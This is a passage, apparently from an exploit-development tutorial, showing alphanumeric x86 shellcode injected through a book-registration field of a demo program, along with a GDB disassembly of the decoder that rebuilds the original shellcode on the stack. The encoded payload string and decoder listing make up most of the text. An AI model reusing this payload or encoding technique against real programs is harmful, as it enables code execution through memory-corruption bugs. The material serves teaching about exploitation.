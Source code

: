 Then, when the `register_book()` function returns, the execution flow is redirect
to the ASCII shellcode and the demo breaks at the start address of the shellcode.
The following disassembly listing of the ASCII
shellcode is displayed. The instructions from 0xffffdc24 to 0xffffdc36 fix the
stack pointer after the following ASCII machine code, the part from 0xffffdc37
to 0xffffdc3c set eax to zero and the part which starts at 0xffffdc41 build
the original shellcode.

```text
[+] Book registered.

reference: AAAA�
commentary: TX-ZZZZ-xZZZ-jLKKP\%RRRR%%%%%-KJJJ-5%%%P-ooUU-oU%6-OB47P-vvvV-vvvJ-8%8%-L%3%P-%sss-%Hss-7-4rP-PPPv-PMPv-OcemP-rrrr-BBrB-nKTKP-hO%h-h%%h-P34SP-Muhe-4zz%P-5222-%_22-%v7JP-YYYY-YYYY-NVMDP


Temporary breakpoint 4, 0xffffdc24 in ?? ()
=> 0xffffdc24:  push   esp
   0xffffdc25:  pop    eax
   0xffffdc26:  sub    eax,0x5a5a5a5a
   0xffffdc2b:  sub    eax,0x5a5a5a78
   0xffffdc30:  sub    eax,0x4b4b4c6a
   0xffffdc35:  push   eax
   0xffffdc36:  pop    esp
   0xffffdc37:  and    eax,0x52525252
   0xffffdc3c:  and    eax,0x25252525
   0xffffdc41:  sub    eax,0x4a4a4a4b
   0xffffdc46:  sub    eax,0x25252535
   0xffffdc4b:  push   eax
   0xffffdc4c:  sub    eax,0x55556f6f
   0xffffdc51:  sub    eax,0x3625556f
   0xffffdc56:  sub    eax,0x3734424f
   0xffffdc5b:  push   eax
   0xffffdc5c:  sub    eax,0x56767676
   0xffffdc61:  sub    eax,0x4a767676
   0xffffdc66:  sub    eax,0x25382538
   0xffffdc6b:  sub    eax,0x2533254c
   0xffffdc70:  push   eax
   0xffffdc71:  sub    eax,0x73737325
   0xffffdc76:  sub    eax,0x73734825
   0xffffdc7b:  sub    eax,0x72342d37
   0xffffdc80:  push   eax
   0xffffdc81:  sub    eax,0x76505050
   0xffffdc86:  sub    eax,0x76504d50
   0xffffdc8b:  sub    eax,0x6d65634f
   0xffffdc90:  push   eax
   0xffffdc91:  sub    eax,0x72727272
   0xffffdc96:  sub    eax,0x42724242
   0xffffdc9b:  sub    eax,0x4b544b6e
   0xffffdca0:  push   eax
   0xffffdca1:  sub    eax,0x68254f68
   0xffffdca6:  sub    eax,0x68252568
   0xffffdcab:  sub    eax,0x53343350
   0xffffdcb0:  push   eax
   0xffffdcb1:  sub    eax,0x6568754d
   0xffffdcb6:  sub    eax,0x257a7a34
   0xffffdcbb:  push   eax
   0xffffdcbc:  sub    eax,0x32323235
   0xffffdcc1:  sub    eax,0x32325f25
   0xffffdcc6:  sub    eax,0x4a377625
   0xffffdccb:  push   eax
   0xffffdccc:  sub    eax,0x59595959
   0xffffdcd1:  sub    eax,0x59595959
   0xffffdcd6:  sub    eax,0x444d564e
```